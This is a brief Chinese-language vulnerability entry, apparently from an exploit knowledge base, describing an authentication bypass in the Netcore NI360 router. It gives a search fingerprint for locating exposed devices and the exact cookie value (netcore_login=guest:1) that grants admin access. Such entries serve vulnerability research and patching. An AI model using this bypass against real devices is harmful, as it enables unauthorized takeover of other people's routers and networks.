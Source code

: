 # 磊科 NI360路由器 netcore_loginnetcore_login 认证绕过漏洞

## 漏洞描述

磊科 NI360路由器 存在认证绕过漏洞，通过添加特定的Cookie字段获取后台权限

## 漏洞影响

<a-checkbox checked>磊科 NI360路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Netcore"</a-checkbox></br>

## 漏洞描述

登录页面如下

![img](../../../.vuepress/public/img/image-20210609112109559.png)



添加 Cookie字段 : **netcore_login=guest:1**，刷新后登录后台

![img](../../../.vuepress/public/img/image-20210609175225486.png)

